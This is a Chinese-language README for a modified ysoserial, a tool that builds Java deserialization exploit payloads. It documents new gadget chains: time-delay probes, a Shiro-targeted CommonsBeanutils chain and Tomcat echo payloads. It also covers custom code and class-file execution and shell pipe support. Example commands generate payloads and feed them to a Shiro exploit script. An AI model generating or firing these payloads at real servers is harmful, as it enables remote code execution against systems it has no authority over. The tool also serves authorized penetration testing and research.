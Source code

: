 # 修改版ysoserial


## 一.新增时间延迟检测payload  

1.CommonsBeanutils1_Time  
2.CommonsCollections1_Time  
3.CommonsCollections2_Time  
4.CommonsCollections3_Time  
5.CommonsCollections4_Time  
6.CommonsCollections5_Time  
7.CommonsCollections6_Time  
8.CommonsCollections7_Time

Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1_Time 9000   #以ms为单位，9000表示延迟9秒```


## 二.新增无commons-collections依赖的commons-beanutils  
1.CommonsBeanutils1Shiro      #主要用于解决Shiro反序列化无commons-collections依赖问题。  

Reference:  
https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html


## 三.新增Tomcat回显payload
1.CommonsBeanutils1_TomcatEcho      #无commons-collections依赖的commons-beanutils回显  
2.CommonsBeanutils1Shiro_TomcatEcho    #无commons-collections依赖的commons-beanutils回显  

Example:  
```python shiro_exp.py `java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1Shiro_TomcatEcho | base64` ```  
需要在头部添加X-Protection字段执行命令
![image](https://github.com/M-Kings/ysoserial/blob/main/IMG/1.png)


Ps:    
目前只写了两个回显的例子，同理可实现其他payload的回显，懒得写了，后续再更新


## 四.扩展代码执行
1.code mode  
command以code:开头,传入需要执行的自定义代码  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'code:Thread.currentThread().sleep(9000L);'```

1.class file mode  
command以classfile:开头,传入编译好的Exp的class文件  
Example:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'classfile:exp.class'```

Reference:  
http://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/

## 五.解决命令管道、重定向符问题
原ysoserial不支持使用管道、重定向符，如以下命令是不行的:  
```java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "echo 123 >/tmp/123"```

改了之后支持命令管道和重定向符问题,支持使用多参数命令传入:  
```java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "bash" "-c" "echo 123 >/tmp/123"```
